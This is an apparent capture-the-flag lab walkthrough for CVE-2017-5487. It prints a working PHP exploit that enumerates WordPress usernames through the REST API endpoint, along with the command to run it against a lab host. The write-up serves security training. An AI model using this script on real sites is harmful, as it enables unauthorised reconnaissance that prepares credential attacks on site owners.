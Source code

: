 ﻿![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">CVE-2017-5487 </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=358> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp CVEs : 2017 </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

The web application is vulnerable to CVE-2017-5487 

![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.003.jpeg)

**Step 1:** Inspect the web application. ![ref2]

![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.005.jpeg)

**Step 2:** Search on google “CVE-2017-5487”. 

![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.006.jpeg)

The exploit db link contains the payload required to exploit the vulnerability. ![ref2]**Exploit DB Link: <https://www.exploit-db.com/exploits/41497>** 

![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.007.jpeg)

**Step 3:** Modify the URL in the php script and save it as “exploit.php” 

#!usr/bin/php <?php 

#Author: Mateus a.k.a Dctor 

#fb: fb.com/hatbashbr/ 

#E-mail: dctoralves@protonmail.ch 

#Site: https://mateuslino.tk  

header ('Content-type: text/html; charset=UTF-8'); 

$url= "http://v5o0wdeg0o07scs2q4qt6iwvz.mumbaix.attackdefenselabs.com/"; ![ref2]


$payload="wp-json/wp/v2/users/"; ![ref1]

$urli = file\_get\_contents($url.$payload); 

$json = json\_decode($urli, true); 

if($json){ 

echo "\*-----------------------------\*\n"; foreach($json as $users){ 

echo "[\*] ID :  |" .$users['id']     ."|\n"; echo "[\*] Name: |" .$users['name']   ."|\n"; echo "[\*] User :|" .$users['slug']   ."|\n"; echo "\n"; 

}echo "\*-----------------------------\*";}  

else{echo "[\*] No user";} 

?> 

![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.008.jpeg)

**Step 4:** Run the php script with the following command. ![ref2]

![ref1]

**Command:** php exploit.php 

![](Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.009.png)

There exists a user with name “admin” and ID 1. **References:**  

1. Wordpress (<http://wordpress.org/>)  ![ref2]
1. CVE-2017-5487 (<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487>)  
1. WordPress < 4.7.1 - Username Enumeration (<https://www.exploit-db.com/exploits/41497>)  

[ref1]: Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.002.png
[ref2]: Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.004.png
